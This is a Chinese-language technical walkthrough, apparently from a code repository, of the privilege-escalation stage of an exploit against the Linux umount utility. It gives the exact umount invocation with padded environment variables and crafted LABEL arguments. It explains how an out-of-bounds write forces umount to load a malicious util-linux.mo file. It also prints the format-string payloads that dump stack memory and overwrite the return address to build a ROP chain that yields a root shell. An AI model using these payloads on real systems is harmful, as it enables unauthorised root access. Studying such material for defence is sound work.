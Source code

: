 

**提权阶段(attemptEscalation)**

- 准备工作

  - 创建用于和子进程通信的pipe用于读取子进程stdout和stderr

  - fork出子进程(下文称umout进程)，在子进程中设置pipe，切换到us_proc进程的工作目录，execve执行umount，具体执行命令：

    ```shell
    AANGUAGE=X.X AANGUAGE=X.X (省略...共255次) LC_ALL=C.UTF-8 /bin/umount  /run /run /run /run /run /run /run /run /run /run down LABEL=78 LABEL=789 LABEL=789a LABEL=789ab LABEL=789abc LABEL=789abcd LABEL=789abcde LABEL=789abcdef LABEL=789abcdef0 LABEL=789abcdef0
    
    ```

- 开始提权

  - 第0步，父进程开始持续读取umount进程的输出，等待"AAAAAAAA"字符串的出现
  - 第1步，读取完整的栈内存数据，并开始解析，构造第二阶段的util-linx.mo文件内容并写入
  - 第2步，持续等待，直到在超时时间内，第二阶段util-linux.mo文件内容被umount读取
  - 第3步，读取剩下的umount输出防止其被阻塞
  - umount启动后，解析符号链接down会触发越界写，使堆内存中存放的正常文件路径失效，迫使其加载位于相对目录C.UTF-8/LC_MESSAGES/中特制的util-linux.mo文件，其中的 poisonous format string 会将栈内存dump到stderr，同时还会通过指向环境变量的指针，将"AANGUAGE=X.X"修改为"LANGUAGE=X.X"
  - umount继续执行，由于环境变量被修改，这将使umount读取第二阶段的util-linux.mo文件(位于X.X/LC_MESSAGES目录下，由于该文件为fifo named pipe，所以这里umoun会阻塞等待其被写入数据)
  - umount进程在父进程第1步完成后恢复执行，读取第二阶段mo文件，其中的格式化字符串将会修改umount的返回地址，通过setdate+execl实现ROP，最终执行DATEMSK文件中的exp进程，利用umount提升exp可执行文件的权限后执行，生成root shell完成提权

- dump栈内存，修改restricted字段，修改AANGUAGE环境变量使用的格式化字符串

  ```shell
  "AA%6$lnAAAAAA%016lx(省略... 共256个%016lx)%016lx%1$68hhx%256$hhn"
  ```

- 修改返回地址使用的格式化字符串

  ```shell
  debian@debian:~/Desktop/work$ msgunfmt "/proc/1609/cwd/(unreachable)/tmp/__gconv_find_shlib/X.x/LC_MESSAGES/util-linux.mo" -o util-linux.po
  debian@debian:~/Desktop/work$ cat util-linux.po 
  msgid ""
  msgstr ""
  "Language: en\n"
  "MIME-Version: 1.0\n"
  "Content-Type: text/plain; charset=UTF-8\n"
  "Content-Transfer-Encoding: 8bit\n"
  
  
  msgid "%s: mountpoint not found"
  msgstr ""
  "%67$hn%71$hn%1$18640.18640s%68$hn%1$13200.13200s%64$hn%1$906.906s%66$hn%70$hn"
  "%1$1567.1567s%65$hn%1$1.1s%69$hn%1$31222.31222s%1$5414.5414s%1$s%1$s%63$hn"
  "%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%37$hn-%35$lx-%37$lx-%62$lx-%63$lx-%64$lx-"
  "%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%78$s\n"
  
  
  msgid "%s: not mounted"
  msgstr "BBBB5678%3$s\n"
  
  
  msgid ""
  "%s: target is busy\n"
  "        (In some cases useful info about processes that\n"
  "         use the device is found by lsof(8) or fuser(1).)"
  msgstr "BBBBABCD%s\n"
  
  ```
